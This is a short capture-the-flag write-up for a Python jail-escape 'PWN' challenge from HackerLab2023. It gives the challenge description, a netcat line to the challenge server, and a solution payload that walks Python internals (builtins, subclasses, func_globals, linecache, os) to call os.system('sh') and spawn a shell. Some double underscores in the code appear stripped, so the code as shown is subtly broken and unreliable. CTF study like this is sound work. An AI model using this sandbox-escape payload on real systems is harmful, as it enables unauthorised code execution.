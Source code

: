 #### Categorie: PWN
#### **Author**: 5c0r7
#### Solve: 15/20 
#### Points: 500 pts (at first)| 360 pts (at end)

#### Write-up by:[0xJekyll](https://twitter.com/Ted_Kouhouenou) 

### Description : 
#### **[FR]**
Un autre jail, échappe les filtres.
#### **[EN]**
Another jail, bypass the filters.

`nc 54.37.70.250 1004`

https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf

## Solution :
### Fr Version : 

`For ENG version scroll down` 
![prison](Images/gankpame2.png)


__builtins__['a']=__builtins__
a['b']=()._class.bases_
a['c']=b[0]._subclasses_()
a['d']=c[59]._init_
a['e']=d._getattribute_
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g._dict_
a['i']=h['OS'.lower()]
a['j']=i._dict_
j['SYSTEM'.lower()]('sh')